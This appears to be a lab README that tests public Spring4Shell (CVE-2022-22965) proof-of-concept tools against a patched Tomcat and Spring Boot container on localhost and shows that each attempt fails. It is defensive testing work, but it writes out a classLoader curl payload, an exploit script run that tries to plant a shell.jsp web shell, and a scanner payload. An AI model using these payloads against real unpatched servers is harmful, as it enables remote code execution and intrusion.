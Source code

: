 So far we have tried poc exploit on vulnerable versions lets try exploit on fixed version of spring boot, tomcat and JDK 

Tomcat version: 8.5.78 (not vulnerable)
openJDK: 8 (not vulnerable)
Spring Boot: 2.6.6 (not vulnerable)

How to deploy?

```
docker build . -t sp4s-tomcat8.5.78-jdk8-spb2.6.6 && docker run -p 8002:8080 sp4s-tomcat8.5.78-jdk8-spb2.6.6
```

You can access the application at http://localhost:8002/helloworld/greeting

Test if application is vulnerable

## Using curl 

Source: https://twitter.com/RandoriAttack/status/1509298490106593283

If application is vulnerable it will return HTTP 400 code.

Original POC
```
$ curl host:port/path?class.module.classLoader.URLs%5B0%5D=0
```

Since our lab application endpoint accepts data from POST request we will send payload in body

```bash
curl -i http://localhost:8002/helloworld/greeting -d class.module.classLoader.URLs%5B0%5D=0
HTTP/1.1 200 
Content-Type: text/html;charset=UTF-8
Content-Language: en
Date: Sun, 17 Apr 2022 20:43:46 GMT
Connection: close
Content-Length: 185

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Reznok's Hello World Spring Application</title>
</head>
<body>
    Hello World! Exploit me!
</body>
</html>
```

As suggested by poc author that application give 400 response if it is using vulnerable version since this version is not vulnerable
we get 200 OK response.

let's try to exploit it using another exploit poc


## POC 2

https://github.com/BobTheShoplifter/Spring4Shell-POC
```bash
python exploit.py --url http://localhost:8002/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://localhost:8002/shell.jsp?cmd=id
```

This poc tries to upload the shell and shows the response code and the shell location without verifying if the exploit actually
worked so if you go to the provided url you will get 404 Not Found error.


### POC 3
https://github.com/fullhunt/spring4shell-scan

```bash
python spring4shell-scan.py --url http://localhost:8002/helloworld/greeting
[•] CVE-2022-22965 - Spring4Shell RCE Scanner
[•] Scanner provided by FullHunt.io - The Next-Gen Attack Surface Management Platform.
[•] Secure your External Attack Surface with FullHunt.io.
[•] URL: http://localhost:8002/helloworld/greeting
[%] Checking for Spring4Shell RCE CVE-2022-22965.
[•] URL: http://localhost:8002/helloworld/greeting | PAYLOAD: class.module.classLoader[z2xxa8m]=z2xxa8m
[•] Target does not seem to be vulnerable.
[•] No affected targets were discovered.
```

